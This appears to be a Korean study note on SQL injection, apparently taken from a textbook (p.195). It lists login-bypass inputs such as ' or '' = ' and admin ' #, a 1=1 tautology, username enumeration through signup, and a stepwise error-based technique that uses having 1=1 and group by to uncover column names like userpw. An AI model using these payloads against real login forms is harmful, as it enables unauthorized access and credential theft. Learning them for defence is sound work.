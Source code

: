 정상 수행을 목표

ex)회원가입 폼, 로그인 폼, 검색 폼...

위의 상황을 비정상적으로 접근하면서 정상적인 것 처럼 실행 되도록 하는 것



id :' or '' = '

pw : ' or '' = 



SELECT * FROM weather_data WHERE station = 101 or 1=1 



id :' or '' = '

500 error to many result 

회원가입에서 아이디 중복을 통해 존재하는 아이디 파악

id:admin ' #

pw: 아무거나



backdoor : 정상적인 기능 뒤에서 다른 기능을 수행하는 것



p.195

#### Error Based 

에러 메세지로 정보를 취득



##### Table 정보 확인하기

1. 싱클쿼터를 입력해서 에러 메세지가 발생되는지 확인

2. `' having 1=1 --`입력

   발생되는 에러 메세지에서 테이블 이름과 컬럼 이름을 유추할 수 있다

3. ` `
   에러메세지에서 userID항목 확인

4. `' group by board_member.idx, board_member.userid having 1=1 --`
   에러메세지에서 userPW 컬럼 확인

5. `' group by board_member.idx, board_member.userid, board_member.userpw having 1=1 --`
   userNAME컬럼 확인

6. `' group by board_member.idx, board_member.userid, board_member.userpw, board_member.username having 1=1 --`
   joindate컬럼 확인

7. `' group by board_member.idx, board_member.userid, board_member.userpw, board_member.username, board_member.joindate having 1=1 --`
   에러가 없으면 테이블의 모든 항목을 확인한 것이 된다
